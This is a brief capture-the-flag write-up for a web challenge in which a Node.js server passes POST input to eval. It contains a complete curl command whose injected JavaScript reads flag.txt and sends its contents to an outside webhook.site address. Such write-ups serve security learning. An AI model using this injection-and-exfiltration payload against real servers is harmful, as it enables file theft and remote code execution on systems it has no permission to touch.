

### Discovery

* We are given url to the site with simple form infinitely asking us if we want the flag or not.
* We also get zip file with server code.
* Server code is written in JavaScript.
* In the server code we have two endpoints.
* The endpoint which accepts `POSTs` uses `eval` function which we can exploit.
* Also in the HTML of the site there is a comment, which suggests that flag is located in `flag.txt` file.

### Exploitation
* We want to write a payload which will execute our code inside `eval` function.
* Our payload should write content of `flag.txt` file and send it as a parameter to our webhook server.

```
curl -XPOST --location 'https://simple-question.semanthon.com' --header 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'question=fs=require('\''fs'\'');a=fs.readFileSync('\''flag.txt'\'');http=require('\''http'\'');http.get("http://webhook.site/f7df2fdf-d6db-4b7d-a06f-7531139c7888/"+a.toString());
``` 



* Result contains urlencoded flag, so we just need to decode it and we get our flag.